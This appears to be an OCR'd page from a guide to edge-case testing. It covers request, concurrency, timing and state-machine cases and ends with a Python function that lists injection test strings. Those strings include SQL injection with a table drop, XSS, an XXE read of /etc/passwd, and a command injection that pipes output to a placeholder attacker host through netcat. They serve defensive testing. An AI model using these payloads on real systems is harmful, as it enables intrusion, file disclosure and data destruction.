 ### Request Edge Cases
- **Empty Requests**: No data
- **Huge Headers**: Header size limits
- **Slow Requests**: Slowloris attack
- **Pipelined Requests**: Multiple requests
- **Chunked Encoding**: Transfer encoding
- **Compression Bombs**: Decompression attacks

## Concurrency Edge Cases
### Race Conditions
```python
class ConcurrencyEdges:
    def generate_race_conditions(self):
        return [
            self.simultaneous_writes(),
            self.read_write_conflicts(),
            self.double_free_scenario(),
            self.use_after_free(),
            self.deadlock_scenario(),
            self.livelock_scenario(),
            self.priority_inversion(),
            self.thundering_herd(),
        ]
```

### Timing Edge Cases
- **Zero Timeout**: Immediate timeout
- **Infinite Timeout**: No timeout
- **Clock Changes**: System time changes
- **Timer Overflow**: Timer wraparound
- **High Frequency**: Rapid events
- **Scheduling**: Thread starvation

## State Machine Edge Cases
### State Transitions
- **Initial State**: Starting conditions
- **Terminal States**: End conditions
- **Invalid Transitions**: Illegal state changes
- **State Loops**: Circular transitions
- **Concurrent Transitions**: Parallel state changes
- **State Explosion**: Combinatorial states

## Security Edge Cases
### Injection Vectors
```python
def generate_injection_edges():
    return {
        'sql': ["' OR '1'='1", "1; DROP TABLE users"],
        'xss': ["<script>alert(1)</script>", "javascript:void(0)"],
        'xxe': ["<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>"],
        'cmd': ["; ls -la", "| nc attacker.com 1234"],
        'ldap': ["*)(uid=*", "admin)(&(1=1"],
        'xpath': ["' or '1'='1", "'] | //user/password"],
    }
```
